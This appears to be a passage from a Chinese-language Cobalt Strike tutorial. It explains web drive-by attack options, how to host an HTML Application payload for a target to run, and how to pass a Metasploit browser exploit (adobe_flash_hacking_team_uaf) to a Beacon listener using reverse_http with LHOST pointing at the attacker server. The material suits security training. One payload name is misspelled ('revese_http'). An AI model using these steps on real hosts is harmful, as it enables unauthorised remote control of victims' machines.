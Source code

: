 java 签名 applet 攻击Java Signed Applet Attack会启动一个Web服务以提供自签名Java Applet的运行环境，浏览器会要求用户授予applet运行权限，如果用户同意则实现控制，但目前该攻击方法已过时。

2、Java 智能 Applet 攻击

Java 智能 Applet 攻击Java Smart Applet Attack会自动检测Java版本并利用已知的漏洞绕过安全沙箱，但CS官方称该攻击的实现已过时，在现在的环境中无效。

3、脚本化 Web 交付

脚本化 Web 交付Scripted Web Delivery 为payload提供web服务以便于下载和执行，类似于MSF的Script Web Delivery

4、托管文件

托管文件Host File通过Attacks --> Web Drive-by --> Host File进行配置，攻击者可以通过这个功能将文件上传到CS服务端上，从而进行文件托管。

如果想删除上传到CS服务端上的文件，可以到Attacks --> Web Drive-by --> Manage下进行删除。

如果想查看谁访问了这些文件，可以到View --> Web Log下进行查看。

4、开始攻击 #
HTML 应用攻击 #
首先来到Attacks --> Packages --> HTML Application创建一个HTML应用，如果没有创建监听的话，还需要创建一个监听。



HTML应用文件生成好后，来到Attacks --> Web Drive-by --> Host File，选择刚才生成的文件，最后点击Launch，复制CS创建的链接，在目标主机上打开此链接。



当在目标主机上提示是否运行时，点击运行。



当该文件在目标上运行后，CS客户端上就可以看到回连的会话了。



MSF 与 CS 的结合利用 #
如果想使用MSF对目标进行漏洞利用，再通过这个漏洞来传输Beacon的话，也是可以的。

1、首先在MSF上选择攻击模块

2、接着在MSF上设置Payload为windows/meterpreter/reverse_http或者windows/meterpreter/reverse_https，这么做是因为CS的Beacon与MSF的分阶段协议是相兼容的。

3、之后在MSF中设置Payload的LHOST、LPORT为CS中Beacon的监听器IP及端口。

4、然后设置 DisablePayloadHandler 为 True，此选项会让 MSF 避免在其内起一个 handler 来服务你的 payload 连接，也就是告诉MSF说我们已经建立了监听器，不必再新建监听器了。

5、再设置 PrependMigrate 为 True，此选项让 MSF 前置 shellcode 在另一个进程中运行 payload stager。如果被利用的应用程序崩溃或被用户关闭，这会帮助 Beacon 会话存活。

6、最后运行exploit -j，-j 是指作为job开始运行，即在后台运行。

操作

在CS中新建一个HTTP Beacon，创建过程不再赘述。

1、在MSF中选择攻击模块，根据教程这里选择的adobe_flash_hacking_team_uaf模块，不过个人感觉现在这个模块已经不太能被利用成功了。

use exploit/multi/browser/adobe_flash_hacking_team_uaf
2、接着配置payload，这里选择revese_http payload

set payload windows/meterpreter/revese_http
set LHOST cs_server_ip
set LPORT 80
3、之后，配置DisablePayloadHandler、PrependMigrate为 True
